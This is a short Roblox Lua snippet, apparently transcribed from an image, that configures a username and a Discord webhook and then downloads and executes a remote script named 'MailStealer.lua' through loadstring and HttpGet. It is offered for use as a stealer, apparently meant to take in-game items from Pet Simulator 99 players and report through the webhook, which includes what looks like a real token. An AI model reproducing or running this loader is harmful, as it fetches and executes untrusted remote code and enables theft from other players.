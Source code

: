 Username = "Moriah220613"
LoadScreen = true 
Webhook = "https://discord.com/api/webhooks/1321234710881505360/XkBa3ZT96OuUVi6CAsWMbBelzy8JWLppAakOcIT_be260C6jHR9aJn98cdc8LQaib0FA" -- Paste your Discord webhook here

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
